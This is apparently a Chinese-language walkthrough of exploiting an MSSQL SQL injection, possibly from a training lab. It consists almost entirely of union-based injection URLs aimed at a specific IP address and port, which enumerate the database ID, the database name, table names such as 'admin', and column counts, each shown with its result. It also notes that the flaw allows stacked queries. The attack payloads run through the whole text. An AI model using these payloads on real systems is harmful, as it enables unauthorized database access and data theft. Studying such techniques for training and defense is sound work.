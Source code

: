 > 当前 漏洞 支持堆叠注入。

## 漏洞利用 

### 查询数据库信息

```bash
## 查询数据库ID
http://59.63.200.79:8015/?id=1' and 1=2 union select 1,2,(Select Dbid From Master..SysProcesses Where Spid = @@spid) from sysobjects -- gg
## result : 7 

##  查询数据库名
http://59.63.200.79:8015/?id=1' and 1=2 union select 1,2,(Select Name From Master..SysDataBases Where DbId=(Select Dbid From Master..SysProcesses Where Spid = @@spid)) from sysobjects -- gg
## result : sql
```

### 查询表信息

```bash
## 查询 第一条表 信息
http://59.63.200.79:8015/?id=1' and 1=2 union select 1,( SELECT top 1 name from sysobjects where xtype='U' ),( SELECT top 1 id from sysobjects where xtype='U'  ) from sysobjects -- gg
## result :  news, 437576597 
```

**使用子查询模拟 limit**

```sql
select top 1 id,name from sysobjects where xtype='U' and id not in (
	select top 3 id from sysobjects where xtype='U' 
)
```

**查询第N条表信息**

```bash
http://59.63.200.79:8015/?id=1' and 1=2 union select 1,2,( select top 1 id from sysobjects where xtype='U' and id not in (	select top 3 id from sysobjects where xtype='U' ) ) from sysobjects -- gg

## result: admin, 1977058079
```

**查询列数量**

```sql
select count(*) from syscolumns where id=1977058079
```
```bash
http://59.63.200.79:8015/?id=1' and 1=2 union select 1,2,( select count(*) from syscolumns where id=1977058079 ) from syscolumns -- gg

## result: 4 
```
